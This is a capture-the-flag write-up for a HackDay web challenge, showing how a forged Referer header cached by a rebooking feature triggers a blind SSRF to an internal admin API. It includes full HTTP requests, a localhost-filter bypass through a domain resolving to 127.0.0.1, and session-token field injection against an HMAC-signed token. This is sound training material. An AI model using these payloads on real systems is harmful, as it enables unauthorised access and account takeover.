



# Let's meet  challenge Write Up
<p align="center"></p>
<p align="justify">This challenge was a web challenge in which a cloud based appointment application was deployed, no source code provided. The application was secured by a user/password authentication and exposed multiple features such as :</p>

- Book meetings
- Add friends/ other participants on the meeting
- Edit meeting's description
- Delete appointment you created
- Leave appointment in which you've been added
- Change account password
- Re-book meeting after deleting it from account page

<p align="justify">As a hint for this challenge, a note was left explaining briefly how the application was working (especially the smart navigation feature allowing users to quickly rebook a meeting) and giving details about an API implemented to manage appointments backend-side: </p>

````txt
============================================================
SYSTEM ADMINISTRATION LOG - JANUARY 12, 2000
FROM: Samuel Sanders - (known also as admin_65537) 
SUBJECT: Maintenance & New Dev Features
============================================================

STATUS: SITE UNDER MAINTENANCE (PATCHING IN PROGRESS)

The scheduling system is currently offline for a security patch 
cycle. While the frontend is restricted, I've started coding 
the new 'Admin Management API' to handle our MongoDB instances 
directly from the backend.

NEW FEATURE: ADMIN MEMBER MANAGEMENT
------------------------------------
The internal API now allows us to force-add members to any 
appointment using their unique reference ID. This is for 
internal use ONLY on the management port (5000).

Example usage for the dev team:
curl "http://127.0.0.1:5000/api/admin/add-to-app?new_user=exampleuser&reference=exampleuser2-JAN1"

NOTE: To simplify the early-stage testing (temporary), I have configured 
the backend so that any POST request sent to this route is 
automatically REDIRECTED to the GET handler. It's easier to 
debug via browser strings for now.

NEW "SMART-NAV" FEATURE (BETA):
-------------------------------
I've implemented a persistent replay buffer. Whenever a user 
books an appointment, the backend caches the entire POST 
request in db. 

Why? If a user accidentally deletes an appointment and wants 
to re-book it immediately, the system can "replay" that stored 
request at high speed. It saves the user from re-typing 
everything.

WARNING: Do not expose port 5000 to the public gateway.
============================================================

/!\ For more details email me so that I can add you to the kick-off meeting I booked on the app on August, 21st.
````

<p align="justify">Considering the note, the objective of the challenge was to be part of the meeting of the admin (username admin_65537) on August, 21st. To do so, given the management API depicted in the note, the exploit is very likely to be based on SSRF to add arbitrary user to any meeting without authentication. </p>

## Step1 : Understand how the application works 

<p align="justify">The key feature of the application is the book and book-again mecanism. Creating an account on the application and trying to book a first meeting, it seem's that the book process follows the logic below: </p>

- The user click on a card of the dashboard triggerring GET request on /book?d=??&m=??? and redirecting him on the book form as shown on the snippet below :
<p align="center"></p>

- The form is filed automaticaly with the reference of the date included in the URL as parameters _d_ and _m_
- Then the user click on book and the form is sent to the backend via a POST request

````burp
POST /book HTTP/2
Host: xmywauknwa.hackday.fr
Cookie: session_token=eyJ1c2VybmFtZSI6InRlc3RfYWNjb3VudF9QT0MiLCJyb2xlIjoic3RkX3VzZXIifQ%3D%3D.U4WZzaGChVhrrZck%2FR4pgwp0r4uWDEJzbJwzc34oymM%3D
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Origin: https://xmywauknwa.hackday.fr
Referer: https://xmywauknwa.hackday.fr/book?d=1&m=JAN
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

name=test1&month=JAN&day=1&details=test1&members=
````
<p align="justify">After the meeting is successfuly booked with information of the form, it can be viewed and edited on the account page: </p>
<p align="center"></p>
<p align="justify">It seems that every appointment is identified with a single reference composed by the username of the owner of the meeting, the first 3 letters of the month in capital
letters and the number of the day in the month. The reference of the meeting is built following the format below:</p>

````txt
USERNAME-JAN1
````

## Step2 : Understand how the re-booking feature works 
<p align="justify">As mentionned in the note; at each book made by the user, the whole URL is backed up with the reference of the meeting so that when a user delete a meeting he created,
  he can then quickly rebook it. Actually when the user click on book again, the reference of the meeting is sent to the server (only element sent in the form when clicking on book-again) and the backend retreive the associated URL (namely the one containing the associated d and m parameters). Below is the requests sent when clicking on leave and book-again :</p>

````txt
POST /leave_appointment HTTP/2
Host: xmywauknwa.hackday.fr
Cookie: session_token=eyJ1c2VybmFtZSI6InRlc3RfYWNjb3VudF9QT0MiLCJyb2xlIjoic3RkX3VzZXIifQ%3D%3D.U4WZzaGChVhrrZck%2FR4pgwp0r4uWDEJzbJwzc34oymM%3D
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: https://xmywauknwa.hackday.fr
Referer: https://xmywauknwa.hackday.fr/account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

reference=test_account_POC-JAN17

POST /book-again HTTP/2
Host: xmywauknwa.hackday.fr
Cookie: session_token=eyJ1c2VybmFtZSI6InRlc3RfYWNjb3VudF9QT0MiLCJyb2xlIjoic3RkX3VzZXIifQ%3D%3D.U4WZzaGChVhrrZck%2FR4pgwp0r4uWDEJzbJwzc34oymM%3D
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: https://xmywauknwa.hackday.fr
Referer: https://xmywauknwa.hackday.fr/account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

reference=test_account_POC-JAN1
````
<p align="justify">So far, it's clear that the SSRF cannot be triggered directly by using book-again or leave_appointment requests and the url cached must poisoned instead. The logic of the rebooking mecanism is depicted in details on the figure below : </p> 

<p align="center"></p>

 - 1: The user clicks a card JAN 1 and get /book?d=1&m=JAN
 - 1bis: The url is very likley to be cached up at this time
 - 2: The user clicks on book and makes a POST request on /book with a autof-iled form
 - 3: The meeting shows up on user's account profile
 - 4: The user deletes his meeting and make
 - 5: The book-again shows up after he successfuly deleted
 - 6: The user clicks on book-again and makes a POST request with the reference of the meeting associated 
 - 7: The server get the associated url in db and replay the book process in the name of the user

 <p align="justify">Hence the key to trigger the SSRF is to understand how and when the url is cached up to allow users to quicly rebook dates.</p>

## Step3 : Poison url caching 
<p align="justify">Before trying to exploit SSRF, it's important to understand firstly when the URL is cached. Keeping in mind that the url cached will be linked to a reference and used to replay the book request, it must be cached separately for each user and must contain the month and the day of the mmeting. Considering this assumption and that the url is cached only if the user book a date, the solution might be in the headers or in the body of the book request.</p>
<p align="justify">As a recall, when clicking on a card, the user is redirected on the book form  which is auto-filed with the parameters d and m of the url. But those parameters can be modified. Let's try to change its and see what is showing up on the account page. Using the request below : </p>

````txt
POST /book HTTP/1.1
Host: xmywauknwa.hackday.fr
Cookie: session_token=eyJ1c2VybmFtZSI6InRlc3RfYWNjb3VudCIsInJvbGUiOiJzdGRfdXNlciJ9.pQ5q6lMMK4nNU1BrWI9qt+CqVYQdbAl8+3ldiq9pff0%3D
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://xmywauknwa.hackday.fr
Referer: https://xmywauknwa.hackday.fr/book?d=2&m=JAN
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

name=test&month=JAN&day=27&details=test&members=
````
<p align="justify"> This is what show's up on the account page: </p>

<p align="center"></p>

<p align="justify">Actually what happened here was:</p>

- the parameters sent through POST request were:
````txt
name=test&month=JAN&day=27&details=test&members=
````
- But the inital card on which the user clicked was JAN2 as shows the referer header :
```txt
Referer: https://xmywauknwa.hackday.fr/book?d=2&m=JAN
```
<p align="justify">This is why on the account page the meeting booked for the 27th of January meeting shows up and why a book-again for the 2nd of janurary shows up also. Hence the conclusion is that the referer header is used to cache up the url associated to the book request made. Furthermore, if no sanity check is processed on the referer header cached, it could be used to bind any remote or internal service/API which reveals very usefull to trigger a SSRF to the internal API. </p>

## Step3 : Tackle Referer header to exploit blind ssrf
<p align="justify">Given the referer header is cached up to power the rebook feature, it can be used to launch a SSRF to reach internal API mentioned in the note attached to the challenge. Actually to be add the 21st of August meeting of the admin, the following request to the internal API must be made: </p>

````bash
curl -X GET http://127.0.0.1:5000/api/admin/add-to-app?new_user=test_account&reference=admin_65537-AUG21
````
<p align="justify">But here, the request replayed by the server when clicking on book-again is a POST request. Fortunately as mentioned in the note each POST request is redirected on the GET handler of the API. Beisdes, in order to get a book-again associated to this referer, the url must embeds parameters d and m. Using the following request :</p>

````txt
POST /book HTTP/2
Host: xmywauknwa.hackday.fr
Cookie: session_token=eyJ1c2VybmFtZSI6InRlc3RfYWNjb3VudCIsInJvbGUiOiJzdGRfdXNlciJ9.pQ5q6lMMK4nNU1BrWI9qt+CqVYQdbAl8+3ldiq9pff0%3D
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://xmywauknwa.hackday.fr
Referer: http://127.0.0.1:5000/api/admin/add-to-app?new_user=test_account&reference=admin_65537-AUG21&d=28&m=FEB
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

name=test&month=JAN&day=30&details=test&members=
````
<p align="justify">This is what we get account-side : </p>

- A meeting is booked on the 30th of january
- A book-again button is available for the reference of february the 28th because we added &d=28&m=FEB in the url

<p align="justify">Nonetheless by clicking on the book-again button it triggered the SSRF which fell off under a filter preventing access to localhost services :</p>
  
<p align="center"></p>

<p align="justify">To bypass this filter, the host spoofed.burpcollaborator.net which resolves localhost can be used and lets the SSRF add any user
 to admin meeting, by leveraging unsecured management API:</p>

````txt
POST /book HTTP/2
Host: xmywauknwa.hackday.fr
Cookie: session_token=eyJ1c2VybmFtZSI6InRlc3RfYWNjb3VudCIsInJvbGUiOiJzdGRfdXNlciJ9.pQ5q6lMMK4nNU1BrWI9qt+CqVYQdbAl8+3ldiq9pff0%3D
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://xmywauknwa.hackday.fr
Referer: http://spoofed.burpcollaborator.net:5000/api/admin/add-to-app?new_user=test_account&reference=admin_65537-AUG21&d=29&m=FEB
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

name=test&month=JAN&day=31&details=test&members=
````
<p align="justify">Finally, clicking on book-again triggers thise time the ssrf; which adds us to the admin meeting and reveals the flag :</p>
<p align="center"></p>

## Flag

````bash
echo -n SEFDS0RBWXtCTDFORF9TU1JGX1cxVEhfRjFMVDNSX0JZUDRTU19SMENLU18hISF9' | base64 -d

#HACKDAY{BL1ND_SSRF_W1TH_F1LT3R_BYP4SS_R0CKS_!!!}
````
FLAG: _HACKDAY{BL1ND_SSRF_W1TH_F1LT3R_BYP4SS_R0CKS_!!!}_


---
## Unintended solutions

### Exploit lack of filters with unicode encoding to spoof admin account

<p align="justify">It was actually possible to override admin profile in db using the username below, registering a new admin_65537 account:</p>

````txt
\u0061dmin_65537
````

### Exploit lack of filters with field escape to poison session token crafted to authenticate users

<p align="justify">The authentication lies on a plaintext token authenticated with HMAC. If the tag isn't verified the authentication fails. The token and the tag are both encoded in bas64 
and the session_token is set at login and used by the rocket guard to authenticate users :</p>

````txt
eyJ1c2VybmFtZSI6InRlc3RfZXhwbG9pdDU2Iiwicm9sZSI6InN0ZF91c2VyIn0=.1Jeq3fYCQ1/MiR8NIOY5/l5A3osfyP+E+Azd9hrxt/Y=
````

<p align="justify"> The plaintext part looks like : </p>

````bash
echo -n 'eyJ1c2VybmFtZSI6InRlc3RfZXhwbG9pdDU2Iiwicm9sZSI6InN0ZF91c2VyIn0=' | base64 -d'

#{"username":"test_exploit56","role":"std_user"}
````
<p align="justify">As a matter of fact, the admin account in processed as a standard user even if its role is admin, it means that only the username field is used to 
authenticate admin (all the others fields such as role aren't used for any conditional access). Hence, if a user use the following username, his profile in db will be a different one from the admin's one: </p>

````txt
admin_65537","a":"b
````
<p align="justify">So at login the username/password will be different but once the token crafted, it will look like :</p>

````
{"username":"admin_65537","a":"b","role":"std_user"}
````
<p align="justify">Hence the user will log in as 'admin_65537","a":"b' but will be actually log in as 'admin_65537' but with a different token (which is nonetheless valid because no 
check is performed for extra field or anything else). Which represents a major security breach in authentication. Below is the function used to craft token:</p>

````rust
pub fn craft_token(username: &str) -> String {
    let token = format!(
        "{{\"username\":\"{}\",\"role\":\"std_user\"}}",
        username
    );
    let plaintext_token = token.as_bytes();
    let auth_tag = compute_tokenHMAC(key, plaintext_token);
    println!("Generated Auth Tag: {:?}", auth_tag);
    let AT_b64encoded = general_purpose::STANDARD.encode(auth_tag);
    let PTT_b64encoded = general_purpose::STANDARD.encode(plaintext_token);
    let token = format!("{}.{}", PTT_b64encoded, AT_b64encoded);
    token
}
````

<p align="justify">Because the to_string() method is not called on the username str received from registered form, token content and fields can be modified.</p>

